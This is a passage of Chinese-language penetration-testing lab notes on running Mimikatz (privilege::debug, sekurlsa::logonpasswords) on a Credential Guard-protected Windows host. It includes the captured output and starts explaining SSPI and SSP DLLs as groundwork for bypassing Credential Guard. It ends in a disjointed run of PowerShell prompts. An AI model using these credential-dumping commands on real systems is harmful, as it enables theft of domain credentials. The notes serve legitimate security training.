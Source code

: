 #### Credential Guard 啟用下使用 Mimikatz
```
PS C:\Users\offsec> cd C:\tools\mimikatz\
PS C:\tools\mimikatz> .\mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #19041 Oct 20 2023 07:20:39
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz # privilege::debug
Privilege '20' OK

mimikatz # sekurlsa::logonpasswords
...
Authentication Id : 0 ; 4214404 (00000000:00404e84)
Session           : RemoteInteractive from 4
User Name         : Administrator
Domain            : CORP
Logon Server      : SERVERWK248
Logon Time        : 9/19/2024 4:39:07 AM
SID               : S-1-5-21-1711441587-1152167230-1972296030-500
        msv :
         [00000003] Primary
         * Username : Administrator
         * Domain   : CORP
           * LSA Isolated Data: NtlmHash
             KdfContext: 7862d5bf49e0d0acee2bfb233e6e5ca6456cd38d5bbd5cc04588fbd24010dd54
             Tag       : 04fe7ed60e46f7cc13c6c5951eb8db91
             AuthData  : 0100000000000000000000000000000001000000340000004e746c6d48617368
             Encrypted : 6ad536994213cea0d0b4ff783b8eeb51e5a156e058a36e9dfa8811396e15555d40546e8e1941cbfc32e8905ff705181214f8ec5c
         * DPAPI    : 8218a675635dab5b43dca6ba9df6fb7e
        tspkg :
```

> 在同樣成功登入 domain CORP.COM 的情況下，無法取得 cached hashes

#### 如何繞過 Credential Guard
Windows 提供了多種身份[驗證機制](https://learn.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2008-r2-and-2008/dn169024(v=ws.10))，例如：\
- LSA（Local Security Authority，當地安全機構）
- Winlogon（Windows 登入程序）
- SSPI（Security Support Provider Interface，安全支援提供者介面）

其中 SSPI 是 Windows 認證的基礎機制，所有需要身份驗證的應用程式和服務都會透過 SSPI 進行身份驗證。Windows 預設提供多種 Security Support Providers（SSP，安全支援提供者），如：
- Kerberos SSP（負責 Kerberos 驗證）
- NTLM SSP（負責 NTLM 驗證）
這些 SSP 都是以 DLL 檔案存在，每當進行身份驗證時，SSPI 會決定要使用哪一個 SSP 來處理請求。


[CLIENTWK220]: PS C:\Users\daveadmin\Documents> whoami
[CLIENTWK220]: PS C:\Users\daveadmin\Documents> cd C:\
[CLIENTWK220]: PS C:\Users\daveadmin\Documents> pwd
[CLIENTWK220]: PS C:\Users\daveadmin\Documents> dir